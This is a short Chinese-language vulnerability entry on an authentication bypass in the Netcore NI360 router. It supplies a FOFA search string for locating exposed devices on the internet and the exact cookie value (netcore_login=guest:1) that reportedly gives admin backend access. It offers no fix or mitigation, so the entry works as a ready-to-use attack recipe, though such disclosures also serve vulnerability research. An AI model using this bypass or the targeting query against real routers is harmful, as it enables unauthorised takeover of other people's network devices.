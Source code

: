 # 磊科 NI360路由器 认证绕过漏洞

## 漏洞描述

磊科 NI360路由器 存在认证绕过漏洞，通过添加特定的Cookie字段获取后台权限

## 漏洞影响

```
磊科 NI360路由器
```

## FOFA

```
title="Netcore"
```

## 漏洞描述

登录页面如下

![](./images/202202110949810.png)

添加 Cookie字段 : **netcore_login=guest:1**

刷新后登录后台

![](./images/202202110949667.png)